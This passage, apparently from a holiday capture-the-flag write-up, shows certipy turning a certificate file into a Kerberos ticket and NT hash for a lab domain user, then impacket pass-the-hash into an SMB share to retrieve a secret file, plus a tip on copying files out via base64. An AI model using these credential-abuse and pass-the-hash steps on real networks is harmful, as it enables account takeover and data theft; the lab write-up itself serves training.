 ```

alabaster@ssh-server-vm:~$ certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```

We now have a hash for `wombleycube` - let's pass the hash using our trusty impacket tools.

```hl_lines="14 21 27"
alabaster@ssh-server-vm:~/impacket$ python3 smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 northpole/wombleycube@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# 
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL
# use Fileshare
# ls
drw-rw-rw-          0  Wed Dec 27 01:13:27 2023 .
drw-rw-rw-          0  Wed Dec 27 01:13:23 2023 ..
-rw-rw-rw-     701028  Wed Dec 27 01:13:26 2023 Cookies.pdf
-rw-rw-rw-    1521650  Wed Dec 27 01:13:26 2023 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Wed Dec 27 01:13:27 2023 SignatureCookies.pdf
drw-rw-rw-          0  Wed Dec 27 01:13:27 2023 super_secret_research
-rw-rw-rw-        165  Wed Dec 27 01:13:27 2023 todo.txt
# cd super_secret_research
# ls
drw-rw-rw-          0  Wed Dec 27 01:13:27 2023 .
drw-rw-rw-          0  Wed Dec 27 01:13:27 2023 ..
-rw-rw-rw-        231  Wed Dec 27 01:13:27 2023 InstructionsForEnteringSatelliteGroundStation.txt
# 
```
We're able to access the *Fileshare* and find the file in `super_secret_research` to get our answer. We also have a treasure trove of cookie recipes!

??? tip "Cookie Recipes"
    To save the cookie recipes locally on my machine, I base 64 encoded the files. Then copied the base64 from the TTY, saved it to my local host and then decoded the files. Yum!
